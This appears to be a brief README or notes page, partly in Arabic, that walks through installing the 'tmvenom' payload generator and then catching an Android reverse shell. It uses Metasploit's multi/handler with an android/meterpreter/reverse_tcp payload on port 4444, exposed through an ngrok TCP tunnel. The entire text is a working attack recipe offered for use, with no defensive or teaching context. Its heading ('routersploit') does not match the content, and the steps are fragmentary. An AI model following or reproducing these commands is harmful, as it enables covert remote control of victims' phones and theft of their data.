 # routersploit

apt update && apt upgrade

pkg install git


git clone https://github.com/TechnicalMujeeb/tmvenom

بعدها ls 
cd tmvenom 
chmod +x install.sh
bash install.sh
 python2 tmvenom2.py
0.tcp.ngrok.io
use multi/handler
set payload android/meterpreter/reverse_tcp
set lhost localhost 
set lport 4444
options
exploit
